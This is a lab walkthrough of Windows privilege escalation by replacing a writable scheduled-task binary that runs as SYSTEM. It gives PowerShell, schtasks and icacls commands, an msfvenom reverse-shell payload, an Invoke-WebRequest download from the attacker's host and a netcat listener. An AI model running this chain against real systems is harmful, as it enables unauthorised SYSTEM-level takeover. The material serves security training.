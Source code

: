 **Schedule Task - Windows Privilege Escalation**

## 1. Introduction to Windows Task Scheduler
Windows Task Scheduler is a built-in service that allows users to automate the execution of tasks at specified times or upon certain triggers. Administrators commonly use this feature for system maintenance, but attackers can also exploit it for persistence and privilege escalation.
An adversary can manipulate scheduled tasks to execute malicious code with elevated privileges. This attack vector is particularly useful when a task is configured to run with SYSTEM privileges but its executable is writable by a low-privileged user.
2. Abusing Scheduled Tasks for Privilege Escalation
By identifying a scheduled task that executes as SYSTEM, an attacker with write permissions to its executable can replace it with a malicious payload. The next time the task runs, the payload executes with SYSTEM privileges, providing full control over the compromised machine.
The attack process follows these steps:
Identify a scheduled task running with SYSTEM privileges.
Check if the current user has write or modify permissions on the task's executable file.
Replace the executable with a malicious payload.
Wait for the task to run and gain a SYSTEM shell.
3. Setting Up the Lab Environment
For this demonstration, we set up a Windows 10 victim machine and a Kali Linux attacker machine.
Attacker: Kali Linux (192.168.100.10) running Metasploit Framework
Victim: Windows 10 (192.168.1.11) with a scheduled task
Creating the Scheduled Task for demo
Create C:\Custom Tasks\Backup\Test.exe	
Run the following PowerShell script as an administrator on the victim machine:
$Action = New-ScheduledTaskAction -Execute "C:\Custom Tasks\Backup\Test.exe"

$Trigger1 = New-ScheduledTaskTrigger -AtLogOn
$Trigger2 = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 5) -RepetitionDuration (New-TimeSpan -Hours 24)

$Principal = New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -LogonType ServiceAccount -RunLevel Highest

$Task = New-ScheduledTask -Action $Action -Trigger $Trigger1, $Trigger2 -Principal $Principal

Register-ScheduledTask -TaskName "BackupTaskDemo" -InputObject $Task -Force
Explanation of Each Part of the Script:
$Action → Executes the file "C:\Custom Task\Backup\Test.ext".
$Trigger1 → Activates when the user logs in.
$Trigger2 → Repeats every 5 minutes for 24 hours after initialization.
$Principal → Runs with SYSTEM privileges, without requiring a password, and executes with the highest privileges.
Register-ScheduledTask → Registers the task with the name "BackupTaskDemo".
________________________________________
✅ Deleting the Task After Completion
If you want to remove the task after 24 hours, you can use the following PowerShell command:
powershell
CopyEdit
Start-Sleep -Seconds 86400  # Wait for 24 hours
Unregister-ScheduledTask -TaskName "BackupTaskDemo" -Confirm:$false
Alternatively, you can include this in the main script for automatic removal.
________________________________________
✅ Manually Deleting the Task If Needed
If you need to delete the task immediately, use:
powershell
CopyEdit
Unregister-ScheduledTask -TaskName "BackupTaskDemo" -Confirm:$false


Before we dive into the enumeration of scheduled tasks, we need to understand our visibility as a standard user.
Unfortunately for us as the attacker, Microsoft does something pretty smart and only allows standard users to view scheduled tasks that belong to them. This means that any tasks we are interested in, such as those created by the administrator, we will not see when trying to query for them.
For example, if we use the following command with administrative permissions, we can query the scheduled task to find information about how it works:
schtasks /query /fo LIST /v | findstr /B /C:"Folder" /C:"TaskName" /C:"Run As User" /C:"Schedule" /C:"Scheduled Task State" /C:"Schedule Type" /C:"Repeat: Every" /C:"Comment"
 

This provides us with a lot of good information about the task. For starters, the task name is “BackupTaskDemo”. Additionally we can see that the task runs every five minutes and executes as SYSTEM.

 Let’s check if our user is any interesting groups.
net user Heaven 
 

Enumerating Folder Permissions

we can check our permissions on the folder using the built-in icacls command. 
First, we will see how we can use the icacls command to check the permissions of folder and file ACLs.
The permissions we are looking for on the Backup folder are any one of the following three permissions:
(F) Full Control
(M) Modify
(W) Write
The user / group permissions we are looking for are the following:
The user we are currently logged in as (%USERNAME%)
Authenticated Users
Everyone
BUILTIN\Users
NT AUTHORITY\INTERACTIVE
We want to check the permissions of both the Backup folder as well as the permissions on the executable itself. Starting with the folder since it is most likely that the file permissions will be inherited from the folder permissions. This is the default behaviour; however, there are times we can find that the folder is not writeable but the file is.
icacls "C:\Custom Tasks\Backup"

icacls "C:\Custom Tasks\Backup\Test.exe"
	 
This shows that authenticated users have the ability to Modify files in the folder. Also, we can see an (I) indicating that the permissions were inherited, as expected. We also see that the Backup folder has inherited permissions, ultimately meaning that we have Modify permissions on the Custom Tasks folder and those permissions have been inherited to all sub folders and files.

Exploiting a Scheduled Task to get a SYSTEM Shell
Now that we have found a scheduled task, we need to craft our own malware to replace the legitimate task binary.

Using Metasploit to create payload	

On Kali Linux, open a terminal and generate a malicious executable:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.10 LPORT=4444 -a x64 --platform Windows -f exe -o payload.exe
Step 3: Send Payload through Nginx Server
cd /tmp
sudo apt install nginx -y
sudo cp payload.exe /var/www/html/
sudo systemctl restart nginx
Setting Up a Listener on Kali Linux
To capture the reverse shell, the attacker sets up a Metasploit listener:
nc -nvlp 4444
Downloading the payload on Windows:

Invoke-WebRequest -Uri "http://192.168.100.10/payload.exe" -OutFile "C:\Windows\Temp\payload.exe"

	
Lastly, we need to move our malicious version of payload.exe into the C:\Custom Tasks\Backup folder.
Replacing the Original Executable


Copy-Item -Path "C:\Windows\Temp\payload.exe" -Destination "C:\Custom Tasks\Backup\Test.exe" -Force
	
when we check our listener, we have a SYSTEM shell!


	 


 
 
